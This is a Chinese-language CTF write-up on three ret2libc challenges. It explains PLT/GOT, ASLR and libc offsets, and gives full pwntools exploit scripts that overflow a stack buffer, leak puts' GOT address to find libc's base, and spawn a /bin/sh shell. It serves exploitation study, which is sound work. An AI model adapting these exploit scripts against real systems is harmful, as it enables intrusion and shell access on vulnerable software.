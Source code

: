 ```yaml
---
title: PWN_Ret2libc
date: 2021-01-28 00:58:55
tags: PWN
categories: Technology
---
```

# 1.ret2libc1



 **先讲几个知识点：**

1. system函数属于libc，并且libc.so动态链接库中的函数之间相对偏移是固定的，即使打开ASLR也是如此。
2. PLT(Procedure Linkage Table)表中的数据不是函数的真实地址，带有@plt的函数起个过渡作用。
3. GOT(Global Offset Table)表中的数据才是函数最终的地址，plt表中的数据是got表的地址，可以通过plt表跳转到got表来得到函数的真正地址。
4. 地址随机化没有对PLT表和GOT表起作用。



首先file和checksec一下
![](pwn-ret2libc/1612006722313.png)
ida查看，没有后门函数，nx打开，且是动态链接程序
![](pwn-ret2libc/1612006725796.png)
虽然说没有后门函数，但是调用了system函数：
![](pwn-ret2libc/1612006729066.png)
并且有/bin/sh字符串：
![](pwn-ret2libc/1612006733238.png)
gdb调试，ebp:0xffffd128
![](pwn-ret2libc/1612006737011.png)
所以exp可以这样：

```python
from pwn import *
io = process("./ret2libc1")
elf = ELF("./ret2libc1")
system_plt = elf.plt["system"]
bin_sh = next(elf.search(b"/bin/sh"))
payload = b'A'*112 + p32(system_plt)+b'aaaa' + p32(bin_sh)
io.sendline(payload)
io.interactive()
```
![](pwn-ret2libc/1612006746037.png)



# 2.ret2libc2

这题与ret2libc1差不多，只是没有/bin/sh 字符串，所以需要我们自己写入

Exp：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]

payload = b'a'*112 + p32(gets_plt) + p32(system_plt) +p32(buf2) +p32(buf2)
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

![](pwn-ret2libc/1612006789960.png)
当然，exp也可以这样写：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ret = 0x0804843d
payload = b'a'*112 + p32(gets_plt) + p32(pop_ret) +p32(buf2)+ p32(system_plt)+  p32(0xdeadbeef)+p32(buf2) 
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```


# 3.ret2libc3

首先查看保护：
![](pwn-ret2libc/1612006820930.png)
![](pwn-ret2libc/1612006825043.png)
没有找到system函数和/bin/sh字符串。

如果知道libc中某个函数的地址，进而可以知道system函数的地址。

为得到libc中某个函数的地址，一般采用got表泄露，即输出某个函数对用的got表的内容。由于libc的延迟绑定机制，需要泄露已经执行过的函数的地址。这个机制大致就是在第一次调用某个函数的时候，这个函数的got表中存放的是下一条plt表的指令的地址，经过一系列操作后得到真实地址，然后将这个真实地址放到got表中，这样之后调用这个函数的时候在got表中可以直接找到真实地址。

因为在这之前已经运行过puts函数，so，got表中放着puts的真实地址，所以我们可以将puts的真实地址打印出来。

> libc基地址   +   函数偏移量    =   函数真实地址

以下可以找到puts的真实地址：0xf7da9ca0

```
from pwn import *
io = process("./ret2libc3")
elf = ELF("./ret2libc3")
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]

payload = b'a'*112 + p32(puts_plt) +p32(0xdeadbeef) + p32(puts_got)
io.recv()
io.sendline(payload)
puts_addr = hex(u32(io.recv()[0:4]))
print(puts_addr)
```


![](pwn-ret2libc/1612006831449.png)
找到了puts的真实地址，但是还需要知道libc的版本，其实根据真实地址是可以得到libc的版本的。

ASLR，地址随机化，但即是再随机化，它的低12位保持不变，因为内存页对齐的缘故。

0xf7da9ca0的低12位是ca0，这里有个网站：https://libc.blukat.me/

可以根据低12位查到这个的版本
![](pwn-ret2libc/1612006838772.png)
这样就得到了system函数的偏移和/bin/sh的偏移。

> system_offset = 0x03d2e0
> puts_offset = 0x067ca0
> bin_sh_offset = 0x17e0af

完整EXP：

```
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

payload = b'a'*112 + p32(puts_plt_addr) + p32(main_plt_addr) + p32(puts_got_addr)
#main_plt_addr可以使程序再次溢出

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])

sys_offset = 0x03d2e0
puts_offset = 0x067ca0
sh_offset = 0x17e0af
#libc基地址 + 函数偏移 = 函数真实地址
libc_base_addr = puts_addr - puts_offset
sys_addr = libc_base_addr + sys_offset 
sh_addr = libc_base_addr + sh_offset 
 

payload = b'a'*112 +p32(sys_addr) + p32(0xdeadbeef) +p32(sh_addr)

p.sendline(payload)
p.interactive()
```



